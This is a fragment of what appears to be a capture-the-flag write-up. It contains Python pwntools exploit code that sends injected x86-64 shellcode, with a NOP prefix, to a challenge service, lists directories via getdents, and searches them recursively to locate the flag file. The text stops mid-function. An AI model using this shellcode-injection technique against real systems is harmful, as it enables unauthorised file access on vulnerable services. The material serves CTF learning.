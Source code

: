 ```python
	mov rdi,rax
	mov rsi,rsp
	mov rdx,0x200
	xor rax,rax
	mov al,78
	syscall

	mov rdi,1
	mov rsi,rsp
	mov rdx,0x400
	xor rax,rax
	mov al,1
	syscall
	'''.format(push_path(seek))
	p.send("\x90"*0x7+asm(sh))
	data=p.read()
	r,f=getinfo(data,flag)
	p.close()
	return r,f

def fuck(path):
	print path
	try:
		res,f=exp(path)
		if res==[] and "flag" in f:
			print "[+]"+path
		elif res!=[]:
			for x in res:
				fuck(path+x+"/")
		return

	except:
		return 

fuck("./flag/rrfh/")
```
Ten Years Later...

I get the path !:`./flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag`
# EXP
```python
from pwn import *
def getend(n):
	idx=0
	for x in n:
		if x=='\x00':
			return idx	
		idx+=1
	return -1
def getinfo(data,flag=0):
	d=0
	res=[]
	f=[]
	while(d<len(data)):
		reclen=ord(data[d+0x10])
		if reclen == 0:
			break 
		dtype=ord(data[d+reclen-1])
		namelen=getend(data[d+0x12:])
		if dtype==4 and data[d+0x12:d+0x12+namelen]!="." and data[d+0x12:d+0x12+namelen]!="..":
			res.append(data[d+0x12:d+0x12+namelen])
		elif dtype!=4 and data[d+0x12:d+0x12+namelen]!="." and data[d+0x12:d+0x12+namelen]!="..":
```

[2]: https://cloud.tencent.com/developer/article/1143454
